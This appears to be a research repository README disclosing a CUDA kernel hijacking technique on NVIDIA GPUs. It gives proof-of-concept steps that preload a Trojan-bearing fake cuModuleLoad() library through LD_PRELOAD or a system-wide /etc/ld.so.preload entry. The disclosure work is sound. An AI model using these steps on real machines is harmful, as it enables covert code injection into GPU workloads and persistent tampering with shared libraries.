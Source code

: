 # <center><font size=5> A Kernel Hijacking Vulnerability on NVIDIA GPUs</font></center>

## <font size=5> I. Introduction</font>

We found a kernel hijacking vulnerability on NVIDIA GPUs. Through manipulating the invocation mechanism of the CUDA driver functions, attackers can craft a disguised CUDA kernel loading API (**cuModuleLoad()**) to hijack the GPU kernel. With this vulnerability, attacks can implant malicious logic into the hijacked kernel, causing malicious code execution. 

## <font size=5> II. Exploitation</font>

We provide a Proof of Concept (POC) to demonstrate this vulnerability. In the POC folder, we provide a GPU-based victim application and an attack tool to hijack the victim's GPU kernel.

**Experimental Setup**

| Operating System |              GPU Model              | CUDA Version |
| :--------------: | :---------------------------------: | :----------: |
|  Ubuntu 2022.04  | NVIDIA GTX1050 (Pascal Arch, SM_61) |     12.2     |

**Reproduction Steps**

(1) Step 1: Run the victim application. We provide an image processing case in /POC/victim_app.

```
cd /POC/victim_app
make
./image_segment.o
```

![GPU1](https://github.com/uestc-cyberlab/gpu_kernel_hijack/blob/main/images/reference.png)

(2) Step 2: Compile the attack tool and generate a disguised CUDA kernel loading API (image_hijack.so). In the disguised API, we implant a Trojan into the hijacked kernel.

```
cd /POC/hijack_tool
make
```

(3) Step 3: Manipulate the invocation mechanism of the dynamic link library (DLL), and preload the malicious API to replace the legitimate one (**cuModuleLoad()**)

​	(3.1) Manipulate the DLL preloading environment variable (LD_PRELOAD), or

```
LD_PRELOAD=./image_hijack.so
```

​	(3.2) Manipulate the DLL preloading configuration file (ld.so.preload)

```
cp image_hijack.so /usr/lib
vim /etc/ld.so.preload
/usr/lib/image_hijack.so
```

(4) Step 4: Run the victim application again, and we can find that the result has been modified.

```
cd /POC/victim_app
make
./image_segment.o
```

![GPU2](https://github.com/uestc-cyberlab/gpu_kernel_hijack/blob/main/images/malicious.png)

# <font size=5> Conclusion </font>

In the end, we provide an animation to present the above attack process.

![GPU3](https://github.com/uestc-cyberlab/gpu_kernel_hijack/blob/main/images/animation.gif)

## Contact

We wrote a paper (A Novel Kernel Hijacking and Trojan Injection Method on Graphics Processing Units) to illustrate this vulnerability. Please contact zhangyang1003@std.uestc.edu.cn for any questions. 

